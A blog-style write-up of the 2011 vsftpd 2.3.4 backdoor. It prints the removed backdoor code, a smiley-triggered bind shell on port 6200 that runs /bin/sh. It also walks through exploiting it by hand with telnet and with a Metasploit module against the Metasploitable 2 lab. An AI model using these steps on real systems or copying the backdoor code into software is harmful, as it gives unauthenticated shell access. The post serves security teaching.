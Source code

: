 ```yaml
---
layout: post
title:  "VSFTPD 2.3.4"
categories: [Technical]
tags: [backdoor, exploit]
---
```


### Introduction

Between June 30th - July 1st 2011 a backdoor was introduced into the vsftpd-2.3.4.tar.gz archive this backdoor allowed an attacker to get a bind shell to the system and thus compromising the system. Although the backdoor was removed quickly (July 3rd 2011) a lot of people downloaded this vulnerable version of VSFTPD, causing quite a lot of panic for sysadmins.

### So, how does it work?

In general, it's actually a pretty simple exploit, and whilst there is a Metasploit module you really don't need to use it. The backdoor payload is initiated in response to a user sending `:)` to the server upon being prompted for a username, by sending that smiley face to the server it executes a function which opens a bind shell listener on port 6200 of the affected device.

### Code Review

```
-    else if((p_str->p_buf[i]==0x3a)
-    && (p_str->p_buf[i+1]==0x29))
-    {
-      vsf_sysutil_extra();
-    }
```

As you can see in the above code, we're checking if some input is equal to a certain value, to be specific, we're checking if the user input is equal to `0x3a` and `0x29` if this is true then we're executing `vsf_sysutil_extra();` a quick Google on `0x3a` tells you it's a `:` and a further Google on `0x29` shows a `)` so as you can see there is the smiley face. So, now we know that we have this special input, let's look at the `vsf_sysutil_extra();` function as right now we don't have anything that resembles a vulnerability.

```
-int
-vsf_sysutil_extra(void)
-{
-  int fd, rfd;
-  struct sockaddr_in sa;
-  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
-  exit(1);
-  memset(&sa, 0, sizeof(sa));
-  sa.sin_family = AF_INET;
-  sa.sin_port = htons(6200);
-  sa.sin_addr.s_addr = INADDR_ANY;
-  if((bind(fd,(struct sockaddr *)&sa,
-  sizeof(struct sockaddr))) < 0) exit(1);
-  if((listen(fd, 100)) == -1) exit(1);
-  for(;;)
-  {
-    rfd = accept(fd, 0, 0);
-    close(0); close(1); close(2);
-    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
-    execl("/bin/sh","sh",(char *)0);
-  }
-}
-
-
```

As you can see above, we're creating a bind socket and setting up a listener process on that socket. We're opening this socket on port 6200 and that is where the vulnerability lies, because we can now connect to this socket without *any* authentication process taking place.

### Exploit

As I mentioned earlier we can exploit this using the Metasploit module `exploit/unix/ftp/vsftpd_234_backdoor` however, we can carry out this exploit manually fairly easily, we will look at both methods in this post.

It's worth noting for the below exploitation examples I am using [Metasploitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2)

#### Manual Exploitation

Firstly, let's telnet to our affected device on port 21 using `telnet ip port` once we do that we'll be asked for a username & password, let's use `:)` as the username & `pass` as the password. If we wait a few seconds then port 6200 should be opened, you can also manually escape with `^]` but waiting also works.

Now if we run an nmap scan our target we should see that port 6200 is open, we can now use `telnet ip port` again and that's it! We now have shell access, if the service was running on a root account in a network we'd now have a root account in that network, simple, right? 


#### Metasploit Exploitation

As I mentioned, we can use the Metasploit module to carry out this attack however I do actually prefer doing it manually, nonetheless, let's get into this. Once again I am using [Metaspolitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2) as my target.

Start Metasploit using `msfconsole` then run `use exploit/unix/ftp/vsftpd_234_backdoor` now all we need to do is configure the host of the target, if you use `show options` you should see the `RPORT` field is already correct, to set the `RHOST` field use `set rhost ip` then we just type `run` and that's it, the script will carry out the attack for you, with a few exceptions it pretty much just does what you did manually, you can find a link to the Rapid7 page at the bottom of this post. But that's it! That's all we needed to do, now you have a shell.

### Python Exploitation

After browsing the Internet for a while I found this [blog post](https://0x00sec.org/t/re-building-a-vsftpd-backdoor-exploit-in-python/159) which showed an implementation of the Metasploit module in Python. As you can see, this is a Python 2 implementation, so for my own benefit I decided to rewrite the script into Python 3, you can find my Python 3 implementation repo [here](https://github.com/LinxzFade/vsftpd234-Backdoor)


### References

[Rapid7 Metasploit Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor)

[vsftpd 2.3.4 Vulnerable Code](https://pastebin.com/AetT9sS5)

[Metasploit Module Exploit Code](https://www.exploit-db.com/exploits/17491/)

